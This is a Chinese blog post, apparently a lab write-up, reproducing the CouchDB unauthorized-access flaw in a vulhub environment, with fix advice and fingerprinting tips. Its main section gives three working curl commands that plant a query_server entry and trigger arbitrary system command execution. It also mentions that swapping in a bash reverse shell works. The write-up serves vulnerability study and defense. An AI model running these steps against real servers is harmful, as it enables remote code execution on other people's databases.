 ```yaml
---
layout:     post
title:      CouchDB 未授权访问漏洞
subtitle:   未授权访问漏洞
date:       2019-10-10
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 漏洞复现
    - 未授权漏洞
---
```

# 漏洞介绍
* 漏洞名称：CouchDB 未授权访问漏洞
* CVE编号：SSV-91597
* 发布时间：2016-05-19
* 漏洞说明：CouchDB 是一个开源的面向文档的数据库管理系统，可以通过 RESTful JavaScript Object Notation (JSON) API 访问。CouchDB会默认会在5984端口开放Restful的API接口，用于数据库的管理功能。CouchDB允许用户指定一个二进制程序或者脚本，与CouchDB进行数据交互和处理，通过一个未授权访问的CouchDB，通过修改其query_server配置，来执行系统命令。
* 影响范围：全版本
* 修复建议：1、指定CouchDB绑定的IP （需要重启CouchDB才能生效） 在 /etc/couchdb/local.ini 文件中找到 “bind_address = 0.0.0.0” ，把 0.0.0.0 修改为 127.0.0.1 ，然后保存。注：修改后只有本机才能访问CouchDB。 2、设置访问密码 （需要重启CouchDB才能生效） 在 /etc/couchdb/local.ini 中找到“[admins]”字段配置密码。
# 0x00 环境配置
靶场环境使用vulhub来搭建，从下图可以看到CouchDB在5984端口上运行了：

![图片](../../../../img/couchdb_unauth_1.png)

# 0x01 漏洞复现
如下图所示，直接访问，可以看到欢迎信息和版本号：

![图片](../../../../img/couchdb_unauth_2.png)

访问http://ip:5984/_config，可以通过该页面中的关键字来判断该漏洞是否存在：

![图片](../../../../img/couchdb_unauth_3.png)

关键字如下：

```
httpd_design_handlers
external_manager
replicator_manager
```
访问[http://ip:5984/_utils/](http://10.20.40.96:5984/_utils/)是CouchDB Web界面：

![图片](../../../../img/couchdb_unauth_4.png)

## 执行系统命令
作为攻击者就一定要把漏洞充分利用，可以通过CouchDB 未授权访问漏洞来执行任意系统命令，具体代码如下，分为三步：


1、新增query_server配置，写入要执行的命令；
`curl -X PUT 'http://username:password@your-ip:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'`
 
2、新建一个临时库和临时表，插入一条记录；
`curl -X PUT 'http://username:password@your-ip:5984/vultest'`
`curl -X PUT 'http://username:password@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'`
 
3、调用query_server处理数据
`curl -X POST 'http://username:password@your-ip:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'`

我执行的命令是Ping dnslog平台，DNSlog平台也成功收到了请求，想要反弹shell也是可以的，修改第一步中的命令为bash 反弹shell就可以：

![图片](../../../../img/couchdb_unauth_5.png)

![图片](../../../../img/couchdb_unauth_6.png)

# 0x02 指纹
CouchDB 未授权访问漏洞的发现需要提前做一次端口扫描，下图就是Nmap对CouchDB应用的识别：

![图片](../../../../img/couchdb_unauth_7.png)

# 0x03 总结
一开始打算使用Vulhub给的exp.py的脚本，搞了半天没反弹成功，因此还是使用curl命令来执行任意命令，curl还是很给力的，给自己布置下作业，学一学curl的命令。

